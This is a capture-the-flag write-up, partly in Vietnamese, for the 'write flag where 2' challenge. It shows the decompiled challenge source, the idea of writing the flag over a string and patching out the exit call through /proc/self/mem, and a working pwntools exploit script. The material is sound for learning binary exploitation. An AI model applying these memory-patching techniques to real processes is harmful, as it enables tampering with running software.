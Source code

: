 # write flag 2
## Reference
https://ctftime.org/writeup/37328
## Source
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[9]; // [rsp+0h] [rbp-70h] BYREF
  _DWORD n[3]; // [rsp+4Ch] [rbp-24h] BYREF
  int v6; // [rsp+58h] [rbp-18h]
  int v7; // [rsp+5Ch] [rbp-14h]
  int v8; // [rsp+60h] [rbp-10h]
  int v9; // [rsp+64h] [rbp-Ch]
  int v10; // [rsp+68h] [rbp-8h]
  int fd; // [rsp+6Ch] [rbp-4h]

  fd = open("/proc/self/maps", 0, envp);
  read(fd, maps, 0x1000uLL);
  close(fd);
  v10 = open("./flag.txt", 0);
  if ( v10 == -1 )
  {
    puts("flag.txt not found");
    return 1;
  }
  else
  {
    if ( read(v10, &flag, 0x80uLL) > 0 )
    {
      close(v10);
      v9 = dup2(1, 1337);
      v8 = open("/dev/null", 2);
      dup2(v8, 0);
      dup2(v8, 1);
      dup2(v8, 2);
      close(v8);
      alarm(0x3Cu);
      dprintf(
        v9,
        "Was that too easy? Let's make it tough\nIt's the challenge from before, but I've removed all the fluff\n");
      dprintf(v9, "%s\n\n", maps);
      while ( 1 )
      {
        memset(buf, 0, 64);
        v7 = read(v9, buf, 0x40uLL);
        if ( (unsigned int)__isoc99_sscanf(buf, "0x%llx %u", &n[1], n) != 2 || n[0] > 0x7Fu )
          break;
        v6 = open("/proc/self/mem", 2);
        lseek64(v6, *(__off64_t *)&n[1], 0);
        write(v6, &flag, n[0]);
        close(v6);
      }
      exit(0);
    }
    puts("flag.txt empty");
    return 1;
  }
}
```

## Ý tưởng
- Trên ida không hiện hết, tuy nhiên sau khi return còn một đoạn chương trình nữa

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/3420c3ac-51e0-409c-8ea7-ff13fb900771)

```
# [] After the exit there is more code
            sym.imp.dprintf(var_ch, "Somehow you got here??\n");
            uVar2 = sym.imp.abort();
```
- Vậy ta sẽ ghi flag vào chuỗi `Somehow...`. Tuy nhiên ta cần bybass qua `call exit`

- Ta có thể sử dụng `CTF` để tạo thành một hex và ghi đè vào mov edi, call exit
- Ta có `C = 0x43, T = 0x 54`, chúng ta có thể dùng 2 kí tự này để ghi đè call exit mà không làm chương trình bị lỗi
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/0800f65f-3682-4ed5-85c4-ab2666d23835)
- Tại sao phải là `CCCCT` mà không phải là đoạn chương trình ngắn hơn. 
- Vì `mov edi` đã là 5 byte và `call exit` cũng là 5 byte

## Khai thác

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('wfw2.2023.ctfcompetition.com', 1337)
else:
        p = process(exe.path)

# GDB()
offset_somehow = 0x20d5


p.recvlines(3)
exe.address = int("0x" + p.recv(12).decode(), 16)
info("exe base: " + hex(exe.address))

addr_mov_edi = exe.address + 0x143b
addr_call_exit = exe.address + 0x1440

# ghi đè chuỗi "Somehow" thành flag
p.sendline(hex(exe.address + 0x20d5) + " " + str(100))
sleep(1)
# ghi đè mov edi
p.sendline((hex(addr_mov_edi + 0)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_mov_edi + 1)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_mov_edi + 2)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_mov_edi + 3)) + " " + str(2))
sleep(1)

# ghi đè call exit

p.sendline((hex(addr_call_exit + 0)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_call_exit + 1)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_call_exit + 2)) + " " + str(1))
sleep(1)
p.sendline((hex(addr_call_exit + 3)) + " " + str(2))

sl("a") #exit

p.interactive()

```

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/16438bae-b0c0-4d64-b573-52732e42ab35)
